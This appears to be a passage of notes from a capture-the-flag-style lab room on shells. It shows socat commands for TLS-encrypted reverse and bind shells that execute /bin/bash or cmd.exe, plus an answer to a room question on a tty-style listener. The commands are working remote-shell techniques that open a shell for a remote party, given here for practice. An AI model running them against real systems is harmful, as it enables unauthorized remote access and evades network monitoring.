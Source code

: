 To connect back, we would use:

```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with  the listener, so copying the PEM file across for a bind shell is  required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![img](assets/UbOPN9q.png)



This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for  this will be the challenge for this task. Feel free to use the Linux  Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

- What is the syntax for setting up an  OPENSSL-LISTENER using the tty technique from the previous task? Use  port 53, and a PEM file called "encrypt.pem"

```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
